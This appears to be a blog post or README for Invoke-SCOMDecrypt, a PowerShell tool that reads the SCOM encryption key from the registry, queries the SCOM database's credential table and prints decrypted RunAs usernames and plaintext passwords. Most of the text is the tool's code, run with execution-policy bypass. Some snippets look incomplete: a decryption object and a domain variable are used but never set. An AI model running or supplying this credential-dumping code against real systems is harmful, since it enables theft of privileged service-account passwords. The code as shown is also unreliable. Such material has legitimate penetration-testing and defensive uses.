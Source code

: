 ```yaml
---
title: "Decrypting SCOM Credentials from the Database"
date: 2022-09-01 12:00:00 -0000
permalink: SCOMDecrypt
author: aleks
tags: SCOM
---
```

# Invoke-SCOMDecrypt

## Introduction ##

This tool is designed to retrieve and decrypt RunAs credentials stored within Microsoft System Center Operations Manager (SCOM) databases.

## Pre-requisites ##

To run the tool you will require administrative privileges on the SCOM server. You will also need to ensure that you have read access to the following registry key:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\MOMBins

You can check manually that you can see the database by gathering the connection details from the following keys:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseServerName
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseName

## Usage ##

To run within the PowerShell console:

    powershell.exe -exec bypass
    . .\Invoke-SCOMDecrypt.ps1
    Invoke-SCOMDecrypt
    ...

## How the script works ##

# [Full code is available here](https://raw.githubusercontent.com/AleksTica/Invoke-SCOMDecrypt/main/Invoke-SCOMDecrypt.ps1)

Pre-requisite check to see if SCOM is installed
```ps1
	
	[string]$installDirectory = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\System Center\2010\Common\Setup").InstallDirectory
	if (Test-Path $installDirectory)
	{
		$Full_Path = [System.IO.Path]::GetFullPath($installDirectory);
		[string]$PATH1 = [System.IO.Path]::GetFullPath("$Full_Path`Microsoft.Mom.Sdk.SecureStorageManager.dll")
		[System.Reflection.Assembly]::LoadFile($PATH1) | Out-Null
		[string]$PATH2 = [System.IO.Path]::GetFullPath("$Full_Path`Microsoft.EnterpriseManagement.DataAccessLayer.dll")
		[System.Reflection.Assembly]::LoadFile($PATH2) | Out-Null
	}
	else
	{
		Write-Host "[Critical Error] Unable to find installation directory of SCOM" -ForegroundColor Yellow
		return
	}
```
Get SQL information from the registry

```ps1
	Try
	{
		$reg = Get-ItemProperty "HKLM:SOFTWARE\Microsoft\System Center\2010\Common\Database" -erroraction stop
		$server = $reg.DatabaseServerName
		$database = $reg.DatabaseName
	}
	Catch [System.Management.Automation.ItemNotFoundException]
	{
		Write-Host "[Critical Error] Unable to detect SQL server"
		return
	}
	
	Try
	{
		$reg = Get-ItemProperty "HKLM:SOFTWARE\Microsoft\System Center\2010\Common\MOMBins" -erroraction stop
		$key = $reg.Value1
	}
	Catch [System.Management.Automation.ItemNotFoundException]
	{
		Write-Host "[Critical Error] Unable to find key"
		return
	}
```
Boiler plate code to connect to the Database and get the content 

```ps1
	$sqlCommand = "SELECT UserName, Data, Domain FROM dbo.CredentialManagerSecureStorage;"
	$connectionString = "Server=$server;Database=$database;Trusted_Connection=True;"
	$connection = new-object system.data.SqlClient.SQLConnection($connectionString)
	$command = new-object system.data.sqlclient.sqlcommand($sqlCommand, $connection)
	$connection.Open()
	$adapter = New-Object System.Data.sqlclient.sqlDataAdapter $command
	$dataset = New-Object System.Data.DataSet
	$adapter.Fill($dataSet) | Out-Null
	$connection.Close()
```
Now the interesting part to decrypt conent from Microsoft.EnterpriseManagement.Security.SecureStorageManager

```ps1
	for ($i = 0; $i -lt $dataset.Tables[0].Rows.Count; $i++)
	{
		if ($dataset.Tables[0].Rows[$i].Data -ne [System.DBNull]::Value -and $dataset.Tables[0].Rows[$i].Username -ne [System.DBNull]::Value)
		{
			$user = $dataset.Tables[0].Rows[$i].Username
			$passw = [System.Text.Encoding]::UTF8.GetString($scom.Decrypt($dataset.Tables[0].Rows[$i].Data))
			
			# Cleans up the spaces in the password
			$truePass = ""
			for ($j = 0; $j -lt $passw.Length; $j++)
			{
				if ($j % 2 -eq 0)
				{
					$truePass += $passw[$j]
				}
			}
			
			if ($domain -notlike "")
			{
				Write-Host "Username: $domain\$user"
				Write-Host "Password: $truePass"
			}
			else
			{
				Write-Host "Username: $user"
				Write-Host "Password: $truePass"
			}
			Write-Host " "
		}
	}
```

